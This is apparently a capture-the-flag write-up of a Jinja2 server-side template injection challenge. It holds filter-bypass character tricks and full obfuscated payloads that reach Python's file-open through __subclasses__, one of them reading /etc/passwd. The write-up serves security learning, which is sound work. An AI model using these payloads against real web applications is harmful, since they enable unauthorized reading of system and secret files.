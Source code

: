 # Discovery of SSTI vuln:
```
http://challenge2.lagncrash.com:17654/{{7*7}}
```
![][./1.png]
Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
<br>
<br>
<br>

# Getting bypass filter codes:
```
[[]|map|string|list][0][0] = <
[[]|map|string|list][0][42] = >
[[]|map|string|list][0][20] = _
[[g]|string|list][0][13] = '
[[g]|string|list][0][7] = .
```

<br>
<br>
<br>

# Decided to try the payload:
Payload:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['fort', [1|float|string|list][0][1], 'py']|join,'r')|attr('read')() }}
```
Changed to /etc/passwd:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['/etc/passwd','r')|attr('read')() }}
```
![][./2.png]
<br>
<br>
<br>
Ditching start from scratch to just get flag.txt
![][./3.png]

Reference: https://fireshellsecurity.team/asisctf-fort-knox/ (All the techniques)
Reference: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ (Changing the techniques to do stuff)